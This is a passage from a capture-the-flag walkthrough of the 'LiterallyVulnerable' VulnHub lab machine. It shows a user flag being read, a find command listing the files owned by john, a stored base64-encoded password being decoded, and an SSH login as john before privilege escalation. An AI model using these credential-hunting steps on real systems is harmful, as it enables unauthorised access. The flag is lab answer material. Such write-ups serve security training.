 Your Path is:
john@literallyvulnerable:/home/doe$ cd /home/john
cd /home/john
john@literallyvulnerable:/home/john$ ls
ls
user.txt
john@literallyvulnerable:/home/john$ cat user.txt
cat user.txt
Almost there! Remember to always check permissions! It might not help you here, but somewhere else! ;) 
Flag: iuz1498ne667ldqmfarfrky9v5ylki
```

#### John’s Password (find, base64)

Searching for files that john owns

```
john@literallyvulnerable:/home/john$ find / -group john 2>/dev/null                                   
find / -group john 2>/dev/null
/home/doe/itseasy
/home/john
/home/john/.bash_logout
/home/john/user.txt
/home/john/.gnupg
/home/john/.gnupg/private-keys-v1.d
/home/john/.bashrc
/home/john/.local
/home/john/.local/share
/home/john/.local/share/tmpFiles
/home/john/.local/share/tmpFiles/myPassword
/home/john/.local/share/nano
/home/john/.profile
/home/john/.cache
/home/john/.cache/motd.legal-displayed
```

Interesting file myPassword was found, which contained base64 encoded password
for john’s account

```
john@literallyvulnerable:/home/john$ cat /home/john/.local/share/tmpFiles/myPassword
<hn$ cat /home/john/.local/share/tmpFiles/myPassword
I always forget my password, so, saving it here just in case. Also, encoding it with b64 since I don't want my colleagues to hack me!
am9objpZWlckczhZNDlJQiNaWko=
john@literallyvulnerable:/home/john/.local/share/tmpFiles$ echo am9objpZWlckczhZNDlJQiNaWko= | base64 -d
<iles$ echo am9objpZWlckczhZNDlJQiNaWko= | base64 -d       
john:YZW$s8Y49IB#ZZJ
```

Privilege Escalation
--------------------

Now that john’s password is obtained, SSH can be used to sign into john’s
account for a better shell.

```
lifesfun:~/vulnhub/LiteraryVulnerable# ssh john@literally.vulnerable
john@literally.vulnerable's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-72-generic x86_64)
